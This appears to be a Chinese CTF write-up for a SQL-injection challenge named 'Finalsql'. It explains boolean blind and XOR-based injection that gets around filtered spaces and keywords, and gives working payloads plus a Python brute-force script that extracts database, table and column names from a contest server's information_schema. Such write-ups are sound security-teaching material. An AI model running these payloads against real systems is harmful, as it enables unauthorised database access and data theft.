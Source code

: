 # Finalsql
## 考察知识点：
### 1.布尔盲注
### 2.xor注入（适用于and,or,空格，逗号的场景）

## fuzz测试：
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/7BE29652E07F4944A074CA33664B8FA8Finalsql1.png)

发现and，union，空格都被过滤

没有报错界面，发现返回结果只有三种，查询回显的数据，报错ERROR!!!和被waf拦截的界面

此时可以想到布尔盲注

构造payload:`?id=0^1^0`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/15204E6D2AFB4B298E902EE8D804B797Finalsql2.png)

发现返回id=1时的界面，此时可以考虑xor注入

payload:`?id=0^(ascii(substr((database()),1,1))>99)^0`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/B5EECFDF6C53469C95B58E6D46FEBD39Finalsql3.png)

说明此时数据库名第一位ascii为103，为g。和前面的sql注入一样

构造exp：
```
# coding=utf-8
# 确定字符编码为utf-8
# python3
# author: 黑白
# 导入request模块
import requests


# 用于匹配的字符串
# dic1=' "?/+=~.,@#$%^&*()QWERTYUIOPASDFGHJKLZXCVBNM'
dic = ',0123456789abcdefghijklmnopqrstuvwxyz_'

# 请求的url
url = "http://118.25.14.40:8104/search.php?id=0^"
string = ''
for i in range(1, 100):
    for j in range(32,127):

        ##################################################################################
        # id="substr((select group_concat(schema_name) from information_schema.schemata limit 0,1),{0},1)={1}--+".format(str(i),ascii(j))
        # id = "(ascii(substr((database()),{0},1))>{1})^0".format(str(i), j)
        # F1naI1y, Flaaaaag
        # id = "(ascii(substr((select(group_concat(TABLE_NAME))from(information_schema.tables)where(table_schema)='geek'),{0},1))>{1})^0".format(str(i), j)

        id = "(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='Flaaaaag'),{0},1))>{1})^0".format(str(i), j)
        # print(id)

        # 最后请求的url=url+id
        url_get = (url + id)
        # print(url_get)
        r = requests.get(url_get)

        ########################################################################################
        if "ERROR！！！" in r.text:
            string += chr(j)
            print(string)

            break
        # print(url_get)
    # print(r.text)
print(string)

```

参考文章：

https://www.anquanke.com/post/id/160584#h3-18
